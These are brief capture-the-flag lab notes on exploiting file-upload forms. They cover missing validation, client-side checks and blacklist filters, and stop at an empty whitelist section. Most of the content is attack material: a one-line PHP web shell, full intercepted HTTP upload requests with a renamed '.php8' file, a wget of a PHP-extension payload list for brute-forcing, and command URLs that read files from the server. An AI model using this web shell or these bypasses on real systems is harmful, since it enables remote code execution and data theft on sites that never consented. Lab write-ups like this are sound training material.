 File Upload


# Absent Validation
 

 echo "<?php echo gethostname(); ?>" > test.php

 upload the file and go to /uploads/test.php
 

# Upload Exploitation Web Shells

touch test2.php

nano test2.php

Copy:
```php

<?php system($_REQUEST['cmd']); ?>

```

upload the file and go to /uploads/test2.php?cmd=cat /flag.txt

# Client-Side Validation

- After poste a valid image to the upload 
- Intercept with burp and mofify the request like this:

```python
POST /upload.php HTTP/1.1
Host: 94.237.60.251:50697
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31070384352095504274360374143
Content-Length: 110908
Origin: http://94.237.60.251:50697
Connection: close
Referer: http://94.237.60.251:50697/

-----------------------------31070384352095504274360374143
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
-----------------------------31070384352095504274360374143--


```

upload the file and go to /profile_images/shell.php?cmd=cat /flag.txt


# Blacklist Filters

```shell
 wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

```
- Intercept the request on burp and send to intruder to brute force the extensions .php
- Next modify the request like this, after discovery the correct extension

```python

POST /upload.php HTTP/1.1
Host: 83.136.255.125:57766
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------100728475939235324011375106908
Content-Length: 262
Origin: http://83.136.255.125:57766
Connection: close
Referer: http://83.136.255.125:57766/

-----------------------------100728475939235324011375106908
Content-Disposition: form-data; name="uploadFile"; filename="shell.php8"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
-----------------------------100728475939235324011375106908--

```

upload the file and go to /profile_images/shell.php8?cmd=cat /flag.txt


# Whitelist Filters



